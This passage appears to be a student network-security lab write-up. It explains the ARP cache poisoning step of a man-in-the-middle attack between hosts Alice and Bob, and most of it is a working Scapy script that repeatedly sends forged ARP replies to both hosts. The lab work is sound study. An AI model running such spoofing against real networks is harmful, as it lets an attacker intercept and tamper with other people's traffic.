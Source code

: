 
___

## Task 2: 



### Step 1

First, Host Mallory conducts an ARP cache poisoning attack on both Alice and Bob, such that in Alice’s ARP cache, Blice’s IP address maps to Mallory’s MAC address, and in Bob’s ARP cache, Alice’s IP address also maps to Mallory’s MAC address. After this step, packets sent between Alice and Bob will all be sent to Mallory. We will use the ARP cache poisoning attack from Task 1 to achieve this goal.


```python
from scapy.all import *
import time

def arp_poison(target_ip, target_mac, spoof_ip, spoof_mac):
    # Creating the Ethernet frame to look like it's from spoof_mac to target_mac
    ethernet_frame = Ether(src=spoof_mac, dst=target_mac)
    # Creating an ARP request pretending spoof_ip is at spoof_mac
    arp_request = ARP(hwsrc=spoof_mac, psrc=spoof_ip, hwdst=target_mac, pdst=target_ip, op=2)  # ARP reply
    # Combining and sending the packet
    packet = ethernet_frame / arp_request
    sendp(packet, iface="eth0", verbose=False)
    print(f"Sent ARP reply: {spoof_ip} is at {spoof_mac} to {target_ip}")

alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
bob_mac = "02:42:0a:00:b6:02"

mallory_mac = "02:42:0a:00:b6:03"

while True:
    # Poison Alice's ARP cache to make her think Mallory is Bob
    arp_poison(alice_ip, alice_mac, bob_ip, mallory_mac)
    # Poison Bob's ARP cache to make him think Mallory is Alice
    arp_poison(bob_ip, bob_mac, alice_ip, mallory_mac)
    time.sleep(5)  # Sleep for 5 seconds before sending the next set of ARP packets

```

### ARP Cache Poisoning Attack Results

After executing our ARP cache poisoning script, we observed changes in the ARP tables on both Bob's and Alice's machines. Below, we provide a brief explanation of the terminal outputs from each host, followed by the screenshots capturing these outputs.
